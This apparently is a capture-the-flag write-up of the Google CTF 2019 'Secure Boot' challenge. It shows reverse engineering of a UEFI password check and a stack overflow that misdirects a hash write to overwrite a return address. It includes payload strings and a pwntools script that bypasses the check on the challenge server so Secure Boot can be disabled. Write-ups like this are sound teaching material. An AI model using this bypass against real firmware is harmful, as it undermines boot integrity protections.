 ```yaml
---
layout: post
category: Pwn
title: Google CTF Quals 2019 - Secure Boot
tags: 
    - kowu
---
```


# Challenge overwiew

A x86\_64 qemu challenge. However, this time it is about getting it to boot up...

```
.
├── contents
│   ├── boot.nsh
│   ├── bzImage
│   ├── rootfs.cpio.gz
│   └── startup.nsh
├── OVMF.fd
└── run.py
```

Running the challenge and doing nothing gives us the following output:

```
UEFI Interactive Shell v2.2
EDK II
UEFI v2.70 (EDK II, 0x00010000)
Mapping table
      FS0: Alias(s):HD1a1:;BLK3:
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)/HD(1,MBR,0xBE1AFDFA,0x3F,0xFBFC1)
     BLK0: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x0)
     BLK1: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x1)
     BLK2: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)
     BLK4: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)

If Secure Boot is enabled it will verify kernel's integrity and
return 'Security Violation' in case of inconsistency.
Booting...
Script Error Status: Security Violation (line number 5)
```

And execution stops. However, if we enter the "BIOS" by hitting `del` or `F12` we are greeted with the following:

```
BdsDxe: loading Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
BdsDxe: starting Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
****************************
*                          *
*   Welcome to the BIOS!   *
*                          *
****************************

Password?
```

This is where the challenge starts.

# Pre-Reversing

First of all, I modified the run.py script and added the `-s` option to qemu (-s ia a shorthand to wait for gdb connections on port 1234). I also removed the `console=/dev/null` as I want to use the console later on.

Now we can run the challenge until we get to the password input prompt. Once reached, we attach radare2 to it with `r2 -D gdb gdb://localhost:1234`. Radare will stop the execution. As the program is expecting input from us, we are probably currently in some kind of input routine. A backtrace should lead us to the calling functions.

Printing a backtrace reveals the following:

```
:> dbt
0  0x7b30a41          sp: 0x0                 0    [??]  rip r13+8403169
1  0x7ec22c9          sp: 0x7ec16c8           32   [??]  rsp+3105 
2  0x7ec5f50          sp: 0x7ec1728           96   [??]  rsp+18600 
3  0x7ed2fe7          sp: 0x7ec1758           48   [??]  rsp+71999 
4  0x7ed30c9          sp: 0x7ec1778           32   [??]  rsp+72225 
5  0x67daf5e          sp: 0x7ec17c8           80   [??]  cr3+108896862 
6  0x7b90612          sp: 0x7ec1828           96   [??]  rip+392145 
7  0x67d4d34          sp: 0x7ec18b8           144  [??]  cr3+108871732 
8  0x7ec5f50          sp: 0x7ec18f8           64   [??]  rsp+18600 
9  0x7ec8317          sp: 0x7ec1958           96   [??]  rsp+27759 
10  0x7a7e577          sp: 0x7ec1a28           208  [??]  r13+7672855 
```

I now went through all the call frames and looked for something interesting (in search for some main loop).
At frame 5 I noticed the use of `0xdeadbeefdeadbeef` (suspicious). Frame 7 checks a functions result and, depending on the output, calls another function with the string "Blocked" as an argument. Therefore I assumed `0x67dae50` to be our password check routine we are interested in.

```
0x067d4d2f      e81c610000     call 0x67dae50              ;[1]
0x067d4d34      84c0           test al, al
0x067d4d36      7511           jne 0x67d4d49
0x067d4d38      488d0d1fa100.  lea rcx, [0x067dee5e]       ; u"\nBlocked!\n"
0x067d4d3f      e8b976ffff     call 0x67cc3fd
```

To confirm this, I placed a breakpoint on the `test al, al` instruction (`db 0x67d4d34`) and, once the breakpoint was hit, manually modified the return value from zero to one (`dr rax=1`).
Continuing execution (`dc`) results in a BIOS menu where I could turn off secure boot and initiate a reboot with the new BIOS settings. As a result, the system would start up normally.

# Reversing

As I identified the password input routine, it's time for reversing (using IDA). First, I dumped the whole guest memory via the qemu monitor (press `ctrl+a` then `c` and dump using `dump-guest-memory`).
We get some decompiled and cleaned up pseudocode like this (left some details away for simplicity):

```c
int checkpasswd() {
    uint64_t *hashptr;
    char keybuffer[128];

    hashptr = malloc(32);
    for (int tries=0; tries <= 2; tries++) {
        int i=0;
        for(; i<140; i++) {
            char c = getc();
            if (c == '\r')
                break;
            keybuffer[i] = c;
            print("*");
        }
        keybuffer[i] = '\0';
        /* assumed because of magic constants */
        sha256(32, i, keybuffer, hashptr); 
        if (hashptr[0x00] == 0xdeadbeefdeadbeef &&
            hashptr[0x08] == 0xdeadbeefdeadbeef &&
            hashptr[0x10] == 0xdeadbeefdeadbeef &&
            hashptr[0x18] == 0xdeadbeefdeadbeef)
            return 1;
        print("wrong!");
    }
    return 0;
}
```

So a classic stack based overflow (128B space vs. 141B usage). We overflow into the hashptr and therefore control where the 32 Bytes of resulting hash are written to. We can use this to bypass the login password check by partially overwriting our own return address.
So instead of returning to `0x67d4d34` we want to return to `0x67d4d49`, i.e. we need to change the first byte from `0x34` to `0x49`. The return address is located at `0x7ec18b8`, therefore we need to modify the hashptr to point to `0x7ec18b8 - 0x20 + 1 = 0x7ec1899`.
The payload for this looks like this:

```python
pl = "A" * 136 + struct.pack('<I', 0x07ec1899)
```

To overwrite the first byte of the return address with controlled data, one can bruteforce possible sha256 hashes.
During the ctf due to lazyness I just manually incremented the first char, as the possibility is > 1/256 to hit a valid bypass :)
Dirty, but I got a working payload quite fast this way.

```python
pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
```

# Launching

We now have everything together to launch the exploit against the remote target.
The del keycode (0x7f) needs to be escaped (0x1b) and we need to wait some time before we can send it (therefore the recvn(1)).

```python
from pwn import *

r = remote('secureboot.ctfcompetition.com', 1337)

if __name__ == '__main__':
    r.recvn(1)
    r.send('\x1b\x7f')
    r.recvuntil('Password?')
    pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
    r.send(pl + '\x0d')
    r.interactive()
```

Launching with socat:

```
socat /dev/stdin,rawer "SYSTEM:python2 secureboot.py"
```

This will drop us into the BIOS options. There we need to deselect `Device Manager` -> `Secure Boot Configuration` -> `Attempt Secure Boot`. A reboot will start the machine and allows us to cat the flag.
